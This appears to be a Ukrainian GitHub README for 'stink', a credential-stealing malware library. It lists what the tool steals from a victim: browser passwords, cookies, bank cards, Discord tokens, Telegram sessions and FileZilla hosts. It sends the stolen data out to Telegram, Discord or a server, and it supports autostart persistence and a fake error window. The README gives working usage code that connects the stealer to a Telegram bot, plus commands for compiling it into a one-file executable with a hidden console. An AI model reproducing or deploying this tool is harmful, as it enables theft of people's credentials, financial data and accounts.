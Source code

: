 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
3. Підтримка мультипрофілів браузера.
4. Відправка зібраних даних архівом в Telegram / Server / Discord.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.

## Приклад використання
### Стандартний
```python
from stink import Stealer
from stink.utils.senders import TelegramSender

if __name__ == '__main__':
    Stealer(senders=[TelegramSender(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer
from stink.enums import Features
from stink.utils.senders import TelegramSender

if __name__ == '__main__':
    Stealer(senders=[TelegramSender(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Додаткові параметри

- `features` - вмикає модулі зі списку. Модулі можна імпортувати з `stink.enums.Features`. Доступні модулі:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.


- `utils` - вмикає утиліти зі списку. Утиліти можна імпортувати з `stink.enums.Utils`. Доступні утиліти:

  - `errors` - виведення помилок.

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового вікна помилки.
  
## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer
from stink.utils.senders import TelegramSender

if __name__ == '__main__':
    Stealer(senders=[TelegramSender(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо залежності:
````
pip install -r requirements.txt
````
6. Встановлюємо Nuitka:
````
pip install Nuitka==0.6.16.4
````
7. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard==0.17.0
```
8. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
